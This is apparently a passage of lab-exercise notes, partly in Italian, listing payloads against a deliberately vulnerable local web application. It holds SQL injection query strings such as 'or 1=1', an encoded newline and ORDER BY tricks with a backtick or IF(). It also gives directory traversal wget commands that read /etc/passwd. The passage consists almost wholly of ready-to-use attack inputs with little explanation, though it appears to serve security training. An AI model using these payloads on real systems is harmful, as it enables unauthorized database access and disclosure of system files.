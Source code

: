 ```jsx
?id=2 or 1=1
```

---

### 6

```jsx
?id=1 or 1=1 %25 123
```

---

### 7

```jsx
?id=2%0Aor 1=1
```

---

### 8

```jsx
?order=name`DESC%23
# attenzione è una backtick
```

---

### 9

```jsx
?order=IF(0,name,age)
```

---

## Directory Traversal

### 1

```jsx
wget -O - 'http://127.0.0.1/dirtrav/example1.php?file=../../../../../../../etc/passwd'
```

---

### 2

```jsx
wget -O - 'http://127.0.0.1/dirtrav/example2.php?file=/var/www/files/../../../../etc/passwd'
```

---
